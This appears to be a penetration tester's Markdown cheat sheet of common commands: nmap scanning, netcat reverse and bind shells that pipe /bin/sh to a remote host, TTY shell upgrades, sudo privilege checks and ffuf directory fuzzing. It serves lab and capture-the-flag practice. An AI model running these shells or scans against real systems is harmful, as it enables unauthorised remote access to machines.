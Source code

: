 # NMAP
~~~
nmap -T4 -p- -A <target ip>
~~~
# Python Webserver
~~~
python3 -m http.server <port>
~~~

# Netcat
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~
## Reverse Shell
### Attacker Listener
nc -nlvp 4444

### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh

## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444

### Target Listener
nc -nvlp 4444 -e /bin/sh
~~~

# TTY Shell
~~~
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'

## Echo
echo 'os.system('/bin/bash')'

## sh
/bin/sh -i

## bash
/bin/bash -i

## Perl
perl -e 'exec "/bin/sh";'

## From within VI
:!bash
~~~
# System Info
~~~
uname -a
~~~
# Privilege Escalation Check
~~~
sudo -l
~~~
# OpenVPN
~~~
sudo openvpn <file>.vpn
~~~
# ffuf
~~~
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<ip>/FUZZ
~~~

